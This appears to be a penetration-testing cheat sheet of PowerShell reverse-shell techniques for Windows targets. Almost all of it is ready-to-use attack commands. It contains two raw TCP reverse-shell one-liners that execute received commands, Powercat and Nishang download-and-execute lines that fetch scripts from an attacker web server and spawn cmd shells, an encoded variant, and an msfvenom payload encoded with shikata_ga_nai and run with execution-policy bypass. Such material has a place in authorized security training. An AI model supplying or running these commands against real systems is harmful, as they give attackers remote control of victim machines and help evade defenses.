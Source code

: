 # Execution

## Reverse Shells

### Reverse Shell - One-Liners

Modify the IP address and the port to the attacker's.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.46.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

or 

```powershell
$sm=(New-Object Net.Sockets.TCPClient('192.168.254.1',55555)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

### Reverse Shell - Powercat

Link https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1

**Reverse shell**

```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.46.2/powercat.ps1');powercat -c 192.168.46.2 -p 443 -e cmd"
```

**Encoded  reverse shell**

```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.46.2/powercat.ps1');powercat -c 192.168.1.3 -p 443 -e cmd.exe -ge > encodedshell.ps1
	
cat encodedshell.ps1 | clip
	
powershell -E <PASTE>
```


### Reverse Shell  - Invoke-PowerShellTcp

**Invoke-PowerShellTcp.ps1**

Link https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

### Reverse Shell - MSFvenom

On Kali

`msfvenom -p windows/shell_reverse_tcp LHOST=<attacker-ip> LPORT=<port> -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1`

On Target

`powershell.exe -ExecutionPolicy Bypass -NoExit -File shell.ps1`

